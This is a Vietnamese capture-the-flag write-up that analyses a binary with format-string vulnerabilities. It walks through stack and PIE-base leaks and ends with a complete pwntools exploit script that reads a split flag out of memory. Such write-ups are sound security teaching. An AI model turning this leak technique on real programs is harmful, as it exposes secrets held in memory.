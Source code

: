 **1. Tìm lỗi**

Dùng lệnh ```file``` để kiểm tra:

```
fmtstr3: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c27d00283febd53b992f8da9e14b5813eb29294f, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}
```

Hàm ```run```:

```
unsigned __int64 run()
{
  int v1; // [rsp+Ch] [rbp-44h]
  void *ptr; // [rsp+10h] [rbp-40h]
  FILE *stream; // [rsp+18h] [rbp-38h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v5; // [rsp+28h] [rbp-28h]
  char format[8]; // [rsp+30h] [rbp-20h] BYREF
  __int64 v7; // [rsp+38h] [rbp-18h]
  __int64 v8; // [rsp+40h] [rbp-10h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  *(_QWORD *)format = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  ptr = malloc(0x100uLL);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("Cannot open flag.txt");
    exit(0);
  }
  fseek(stream, 0LL, 2);
  v1 = ftell(stream);
  fseek(stream, 0LL, 0);
  fread(ptr, v1 / 2, 1uLL, stream);
  fread(&flag2, v1, 1uLL, stream);
  fclose(stream);
  puts("What's your name?");
  printf("Your name: ");
  fgets(s, 16, stdin);
  printf("Hello ");
  printf(s);
  puts("Welcome to transylvania\n");
  printf("Say a greeting: ");
  fgets(format, 24, stdin);
  printf(format);
  puts("It's nice to meet you here");
  return __readfsqword(0x28u) ^ v9;
}
```

Đoạn code trên có chức năng đọc nội dung của tệp flag.txt, in ra một thông báo chào mừng và yêu cầu người dùng nhập một chuỗi định dạng để in ra màn hình.

Trước tiên, hàm run khai báo các biến cục bộ v1, ptr, stream, s, format, v5, v7, v8, và v9. Biến v9 được sử dụng để lưu trữ giá trị của thanh ghi ngăn xếp fs để kiểm tra tính toàn vẹn của hàm.

Sau đó, hàm cấp phát bộ nhớ động cho biến ptr với kích thước 256 byte (0x100uLL) và mở tệp flag.txt để đọc nội dung. Nếu không thể mở tệp, chương trình in ra thông báo và kết thúc. Hàm tiếp tục bằng cách tính toán độ dài của tệp flag.txt và đọc nội dung của nửa đầu tệp vào biến ptr và nửa sau tệp vào biến flag2. Sau đó, tệp flag.txt được đóng.

Tiếp theo, hàm in ra chuỗi "What's your name?" và yêu cầu người dùng nhập tên của họ với hàm fgets. Sau đó, hàm in ra chuỗi "Hello" và tên được nhập vào. Hàm tiếp tục bằng cách yêu cầu người dùng nhập một chuỗi định dạng với hàm fgets và in ra chuỗi này. Cuối cùng, hàm in ra chuỗi "It's nice to meet you here" và trả về giá trị của thanh ghi ngăn xếp fs để kiểm tra tính toàn vẹn của hàm.

Ta thấy ở câu lệnh ```printf(s);``` và ```printf(format);``` có lỗi format string.

**2. Ý tưởng**

Do flag được chia làm 2 và được lưu ở 2 biến không nằm trên stack hoàn toàn nên tận dụng %p và %s để leak giá trị của flag.

**3. Khai thác**

Đặt breakpoint sau lệnh đọc giá trị trong file flag xem ở stack có leak được giá trị nào của flag không.

![dau.png](photo/dau.png)

Ta thấy nửa đầu của flag đã được lưu ở vị trí thứ 3 trong stack nên chỉ cần nhập ```%8$s``` thì sẽ in được ra. Thử kiểm tra xem đã in ra chưa.

![check.png](photo/check.png)

Nhưng nửa sau không thấy ở đâu trên stack cả. Xem lại stack thì thấy ở vị trí 12 trên stack hay nhập ```%$17p``` sẽ leak được địa chỉ base. Kiểm tra lại xem:

![check1.png](photo/check1.png)

Như vậy đã leak được nửa đầu của flag và giá trị base để tìm địa chỉ nửa sau. Bây giờ chỉ cần lưu lại

```
flag = b''
payload = b'%8$s%17$p'
r.sendlineafter(b'name: ', payload)
flag += r.recvuntil(b'0x', drop=True)
base_leak = int(r.recvline()[:-1], 16)
log.info("base leak: " + hex(base_leak))
```

![exe.png](photo/exe.png)

Với địa chỉ leak ra được thì ta tính được cách địa chỉ base là ```0x14e6```

Có được địa chỉ base thì tính toán khoảng cách đến địa chỉ flag2.

![flag2.png](photo/flag2.png)

Tính được flag2 cách địa chỉ base là ```0x4060```

Như vậy cũng đã tính được địa chỉ flag2. Đặt brepoint sau lệnh ```printf``` thứ 2 xem có thể đưa địa chỉ flag2 lên stack ở vị trí nào.

![stack.png](photo/stack.png)

Thấy được chuỗi mình nhập vào được lưu ở vị trí thứ 7 trên stack nên khi mình nhập ```%12$s``` và địa chỉ của flag2 thì có khả năng in ra giá trị flag2.

```
payload = b'%12$s' + p64(flag2)
r.sendlineafter(b'greeting: ', payload)
```

![stack1.png](photo/stack1.png)

Đã có sự dịch chuyển 3 byte khiến địa chỉ đã không đúng nên chèn thêm 3 byte rác nữa và sửa lại ```%13$s``` vì địa chỉ flag2 ở sau đó.

![stack2.png](photo/stack2.png)

Như vậy flag2 đã ở trên stack. Còn lại chỉ cần lưu về và in flag đầy đủ ra. Vậy ta có script như sau

```
from pwn import *

exe = ELF('fmtstr3', checksec = False)
r = process(exe.path)

flag = b''
payload = b'%8$s%17$p'
r.sendlineafter(b'name: ', payload)
flag += r.recvuntil(b'0x', drop=True)
base_leak = int(r.recvline()[:-1], 16)
log.info("base leak: " + hex(base_leak))
exe.address = base_leak - 0x14e6
log.info("exe leak: " + hex(exe.address))
flag2 = exe.address + 0x4060
log.info("flag2: " + hex(flag2))

#input()
payload = b'%13$saaa' + p64(flag2)
r.sendlineafter(b'greeting: ', payload)
flag += r.recvuntil(b'}')
log.info('Flag: ' + flag.decode())
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
